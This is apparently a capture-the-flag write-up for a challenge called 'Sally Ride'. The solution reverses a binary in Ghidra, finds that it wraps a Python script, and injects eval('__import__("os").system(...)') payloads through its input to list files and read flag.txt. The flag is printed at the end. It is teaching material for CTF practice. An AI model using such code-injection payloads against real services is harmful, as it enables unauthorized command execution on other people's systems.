



# Sally Ride

## Description
> Sally Kristen Ride (May 26, 1951 – July 23, 2012) was an American astronaut and physicist. Born in Los Angeles, she joined NASA in 1978, and in 1983 became the first American woman and the third woman to fly in space, after cosmonauts Valentina Tereshkova in 1963 and Svetlana Savitskaya in 1982. She was the youngest American astronaut to have flown in space, having done so at the age of 32. - Wikipedia Entry

> Chal: I asked ChatGPT to build this binary to honor my hero, the first American woman in space, but its broken and I cannot seem to figure out why. Connect to `0.cloud.chals.io 10568` and help me return the flag.

### Attachments
[chal.bin](./chal.bin)

## Solution
* Opening the binary in Ghidra, and going through the main function, we see that it is running a python script.

* There is a vulnerability in the `input()` function in python.
* We may be able to inject code and get the flag.
* We can use the `eval()` function to execute python code.
* To list the files in the directory
```
eval('__import__("os").system("ls -la")')
```

* We can see `flag.txt` in the directory.
* To view the contents of the `flag.txt` file
```
eval('__import__("os").system("cat flag.txt")')
```


### FLAG
```
chctf{u_cant_B_Wh4t_u_caNT_S33}
```
## Resources

* https://github.com/mahaloz/ctf-wiki-en/blob/master/docs/pwn/linux/sandbox/python-sandbox-escape.md